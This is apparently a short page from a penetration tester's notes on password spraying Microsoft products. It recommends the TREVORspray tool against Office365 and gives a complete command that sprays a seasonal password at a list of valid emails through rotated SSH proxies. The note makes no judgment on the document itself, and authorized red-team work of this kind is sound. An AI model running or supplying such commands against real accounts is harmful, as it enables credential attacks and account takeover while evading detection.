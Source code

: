 ```yaml
---
description: >-
  A list of tools and resources that I use for password spraying Microsoft
  products.
---
```


# Office365

### Attacking Office365

A tool that I've had a large amount of success with is [TREVORspray](https://github.com/blacklanternsecurity/TREVORspray):

```bash
./trevorspray.py -e /opt/trevorspray/log/valid_emails.txt -passwords 'Winter2021' --delay 1 --no-current-ip --ssh [SSH SERVERS] -k (KEY)
```
